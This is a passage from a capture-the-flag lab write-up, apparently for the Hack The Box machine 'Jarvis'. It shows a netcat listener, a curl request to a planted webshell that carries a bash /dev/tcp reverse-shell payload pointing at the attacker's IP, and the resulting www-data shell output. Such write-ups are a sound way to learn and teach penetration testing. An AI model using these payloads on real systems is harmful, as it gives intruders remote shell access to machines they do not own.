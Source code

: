 Ah ha! we can!

**Let's get a reverse shell then!**

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:11:19(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

- **Send the reverse shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:13:23(HKT)]
└> curl http://jarvis.htb/webshell.php --get --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"

```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:11:19(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.143] 59998
[...]
www-data@jarvis:/var/www/html$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
jarvis
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `www-data`!

## Privilege Escalation

### www-data to pepper
